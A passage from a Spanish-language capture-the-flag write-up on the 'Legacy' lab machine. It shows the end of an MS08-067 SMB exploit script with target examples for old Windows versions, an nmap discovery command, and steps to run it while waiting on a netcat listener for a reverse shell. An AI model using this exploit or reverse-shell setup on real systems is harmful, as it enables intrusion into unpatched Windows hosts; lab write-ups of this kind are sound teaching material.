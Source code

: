 ```python
    def run(self):
        self.__DCEPacket()
        self.__dce.call(0x1f, self.__stub)
        time.sleep(3)
        print('Exploit finish\n')

if __name__ == '__main__':
       try:
           target = sys.argv[1]
           os = sys.argv[2]
           port = sys.argv[3]
       except IndexError:
                print('\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0])
                print('Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445')
                print('Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)')
                print('Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal')
                print('Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English')
                print('Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)')
                print('Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)')
                print('Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)')
                print('')
                print('FYI: nmap has a good OS discovery script that pairs well with this exploit:')
                print('nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1')
                print('')
                sys.exit(-1)


current = SRVSVC_Exploit(target, os, port)
current.start()
```

Ahora solamente nos falta ejecutar el script con `python2.7 7132.py 10.10.10.4 7` mientras estamos en escucha con [[rlwrap nc -lvnp 443]]
Si te llegan a aparecer algunos errores. Mas abajo muestro los que me aparecian a mi y como los solucione

![[Legacy11.png]]

Esto ya nos tendria que haber mandado la [[Reverse shell]] y podemos catear las flags

![[Legacy8.png]]
![[Legacy9.png]]
